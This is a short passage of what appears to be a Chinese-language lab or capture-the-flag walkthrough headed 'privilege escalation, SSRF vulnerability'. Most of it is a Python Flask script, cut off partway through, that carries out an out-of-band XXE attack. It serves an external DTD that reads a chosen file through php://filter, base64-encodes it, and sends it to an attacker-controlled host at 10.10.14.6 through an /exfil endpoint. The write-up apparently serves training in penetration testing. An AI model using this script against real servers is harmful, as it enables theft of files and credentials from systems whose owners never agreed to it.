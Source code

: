[![](assets/1699929055-23055b950579f6679e3e9e4f22848d57.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104027-0148fec2-81ce-1.png)

# 权限提升

## SSRF 漏洞

### 编写脚本

```plain
#!/usr/bin/python3

import base64
import logging
import readline
import requests
import threading
import time
from flask import Flask, request

log = logging.getLogger('werkzeug')
log.setLevel(logging.ERROR)

app = Flask(__name__)
prev_data = ""

xml_template = """<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://10.10.14.6/dtd?fn={}">
<data>&send;</data>"""

@app.route("/dtd")
def dtd():
    fn = request.args['fn']
    return f"""<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource={fn}">
    <!ENTITY % all "<!ENTITY send SYSTEM 'http://10.10.14.6/exfil?data=%file;'>">
    %all;"""


@app.route("/exfil")
def data():
    global prev_data
    b64data = request.args['data'].replace(' ', '+') # Flask tries to URL decode it
    print(b64data)
    print(len(b64data))
```